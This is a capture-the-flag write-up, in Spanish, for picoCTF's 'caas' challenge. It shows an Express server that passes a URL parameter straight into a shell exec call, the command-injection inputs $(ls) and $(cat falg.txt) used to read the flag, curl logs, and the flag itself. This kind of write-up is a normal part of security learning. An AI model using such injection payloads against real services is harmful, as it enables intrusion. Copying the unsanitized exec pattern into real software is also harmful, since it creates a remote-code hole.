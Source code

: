 # Retos picoCTF

# Level caas

## Objetivo
Now presenting cowsay as a service
Challenge Endpoints
Download index.js	index.js

## Solucion
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

para este reto vemos que la pagina nos manda a /cowsay/{mensaje} 

Vemos que no verifica lo que se le escriba, por lo que hacemos uso de $() para poder comunicarnos con la consola traté de enviarle los parametrosn directo en consola, pero no funcionó, así que lo hice directo en la pagina, primero con /cowsay/$(ls) con eso nos muestra que hay un archivo llamado falg.txt, se abre con $(cat falg.txt) y nos da la bandera

'''
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/ 
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="styles.css"/>
        <script src="index.js"></script>
        <title>CaaS</title>
    </head>
    <body>
        <h1>Cowsay as a Service</h1>
        <strong>Make a request to the following URL to cowsay your message:</strong>
        <br>
        <code></code>
    </body>
</html>
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ cat index.js                       
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/vamosviendodijoesciego
 ________________________
< vamosviendodijoesciego >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/'ls'                  
 ____
< ls >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/´ls´
 __
< ´ls´  >
 --
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/`ls` 
 __________
< index.js >
 ----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
                                                                           
┌──(kali㉿kali)-[~/Downloads/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/`cat index.js`
 _______
< const >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
curl: (6) Could not resolve host: express
curl: (3) URL rejected: Bad hostname
curl: (3) URL rejected: Bad hostname
curl: (6) Could not resolve host: const
curl: (6) Could not resolve host: app
curl: (3) URL rejected: Bad hostname
curl: (3) URL rejected: Bad hostname
curl: (6) Could not resolve host: const
curl: (3) unmatched brace in URL position 1:
{
 
'''

## Referencias



